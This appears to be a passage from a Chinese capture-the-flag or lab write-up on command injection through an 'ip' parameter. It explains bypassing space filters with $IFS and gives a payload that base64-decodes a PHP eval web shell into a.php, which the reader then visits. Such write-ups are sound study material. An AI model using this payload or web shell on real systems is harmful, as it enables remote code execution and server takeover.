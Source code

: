 ![](./images/image-40.png)

不过反斜杠被过滤了，这里无法使用

空格也被过滤了，不过可以用$IFS、${IFS}等代替

尖括号没有被过滤，我们就可以写入php文件

可以配合base64编码来写入文件

```
ip=127.0.0.1|echo$IFS"PD9waHAgZXZhbCgkX1BPU1RbYV0pOz8+"|base64${IFS}-d${IFS}>a.php

#<?php eval($_POST[a]);?>
```

然后访问a.php

![](./images/image-41.png)
